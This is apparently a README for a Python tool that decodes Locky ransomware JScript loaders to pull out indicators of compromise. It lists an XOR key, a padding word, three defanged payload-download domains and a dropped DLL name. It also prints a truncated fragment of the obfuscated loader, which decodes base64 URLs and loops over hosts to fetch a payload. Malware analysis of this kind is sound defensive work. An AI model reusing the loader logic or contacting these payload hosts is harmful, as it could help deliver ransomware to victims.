 # Locky Indicator of Compromise (IOC) JSCRIPT Extractor

**Source:** https://www.flashpoint-intel.com/anatomy-locky-zepto-ransomware/**

**Source:**
```
Usage: python LockyExtractor.py 
Enter jscript file name with jscript extension: <path to the local JScript loader file>
```
**Goal**: Assist analysts with decoding and obtain relevant information from Locky HTA Application (HTA) and Windows Script File (WSF) JSCRIPT loaders.

Locky ransomware was notorious for its usage of the second-stage JavaScript and Windows Script File JSCRIPT in its spray-and-pray attacks.

**These are classic simple XOR-ed .wsf/.hta SCRIPT payloads used by this gang.**

For example, let’s take a look at the following Locky HTA JSCRIPT loader:
```
sample: 3d91a6ffed8b038363a0ead0f8985d1bdf88ba543aff0bcab048819d70455073.jscript.
```

**Padding word:**
```
LICIZAX
```
**XOR Key:**
```
b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq
```
**Payload URI: (remove padding word and decode Base64):**
```
goldenladywedding[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
www[.]jmetalloysllp[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
livewebsol[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
```
**Filename in %TEMP%/AppData/ (launched by rundll32.exe with ‘qwerty'):**
```
NqmXYsBdh[.]dll
```
**Here is the relevant function right below the eval() one:**
```
var brigadabrigadalalapolicMOTALO2HORDA17 = "NqmXYsBdh";
var brigadabrigadalalapolicTRAxKey = brigadabrigadalalapolicMOTALO2fsta("b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq");
var brigadabrigadalalapolicMOTALO2_a5 = ["Z29sZGVubGFkeLICIZAXXdlZGRpbmcuY29tL3ZkRzc2VlVZNzZyam51","dLICIZAX3d3LmptZXRhbGxveXNsbHAuYLICIZAX29tL3ZkRzc2VlVZNzZyam51","bGl2ZXdlYnNvbC5jb20vdmRHLICIZAXNzZWVVk3NnJqbnU="]; 
var brigadabrigadalalapolicMOTALO2HORDAI = 0;
for(brigadabrigadalalapolicMOTALO2HORDA5 in brigadabrigadalalapolicMOTALO2_a5){
brigadabrigadalalapolicMOTALO2HORDAI++;
try{
var brigadabrigadalalapolicMOTALO2HORDA6 =brigadabrigadalalapolicMOTALO2_bChosteck.brigadabrigadalalapolicMRADXHO() + brigadabrigadalalapolicMOTALO2_a5[brigadabrigadalalapolicMOTALO2HORDA5].brigadabrigadalalapolicMRADXHO() + "?CHhjpz=zhXHhhwS";
if(brigadabrigadalalapolicMOTALO2_a2(brigadabrigadalalapolicMOTALO2HORDA6,brigadabrigadalalapolicMOTALO2HORDA17+brigadabrigadalalapolicMOTALO2HORDAI)){
break;
```
